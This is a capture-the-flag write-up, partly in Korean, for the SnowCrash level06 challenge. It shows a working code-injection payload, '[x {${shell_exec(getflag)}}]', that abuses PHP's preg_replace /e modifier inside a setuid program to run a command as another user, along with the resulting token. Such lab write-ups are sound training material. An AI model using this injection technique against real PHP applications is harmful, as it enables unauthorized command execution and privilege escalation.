# Level06

## ls -l

```zsh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

두 파일전부다 실행 및 읽기가능
level06파일에서 rws는 read-write-execute + setuid를 의미합니다. 이것은 해당 파일을 실행할 때, 실행하는 사용자가 파일 소유자(flag06)의 권한을 가지게 됩니다. 따라서 level06 사용자가 level06 파일을 실행하면, 실행하는 동안 flag06 사용자의 권한을 가지게 됩니다.

## level06 실행

```zsh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

## level06.php

```php
level06@SnowCrash:~$ cat ./level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

## regex and shell_exec
reg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)

regex : (\[x (.*)\])

#To match the regex our string must start by "[x" and finish by "]"

[x {${shell_exec(getflag)}}]

## make file 
```zsh
level06@SnowCrash:~$ mkdir /tmp/level06
level06@SnowCrash:~$ echo '[x {${shell_exec(getflag)}}]' > /tmp/level06/flag06
```

## execute level06 with file flag06
```zsh
level06@SnowCrash:~$ ./level06 /tmp/level06/flag06 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
level06@SnowCrash:~$ su level07
Password: 
```